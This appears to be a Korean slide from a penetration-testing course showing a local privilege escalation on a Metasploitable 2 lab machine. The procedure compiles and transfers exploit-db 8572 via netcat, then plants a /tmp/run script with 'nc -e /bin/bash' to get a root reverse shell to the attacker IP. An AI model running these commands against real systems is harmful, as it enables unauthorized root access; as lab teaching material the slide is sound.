

# 공격기법 #9 – 권한 상승

<조건>
victim machine에 nc가 깔려 있어야 한다.

<방법>
attack machine에서 https://www.exploit-db.com/exploits/8572 코드를 다운 받은 후,32bit로 compile 시킨다.
attack$ gcc –m32 8572.c –o 8572

netcat을 이용하여 만들어진 8572 실행파일을 넘긴다.
attack$ nc –vv –l –p 5555 < 8572
victim$ nc –v –n [attack IP] 5555 > 8572

victim의 PID를 확인한다.
victim$ cat /proc/net/netlink
여기서 0이 아닌 PID를 확인한 후, 기억하고 있는다.

8572.c 코드를 보면 /tmp/run을 실행시키는 코드임을 알 수 있다.
따라서, /tmp/run에 “nc –e /bin/bash [attack IP] 5555’를 넣어줘 실행되게 해준다.
victim$ echo ‘#!/bin/bash’ > /tmp/run
victim$ echo ‘nc –e /bin/bash [attack IP] 5555’ >> /tmp/run

이제 attack에서 netcat을 listen으로 열어두고, victim에서 8572 파일을 실행파일로 바꾼 후, 실행시켜주면, root shell을 딸 수 있게 된다.
attack$ nc –v –l –p 5555
victim$ chmod +x 8572
victim$ ./8572 [PID]

출처 : https://chousensha.github.io/blog/2014/06/03/pentest-lab-metasploitable-2/

14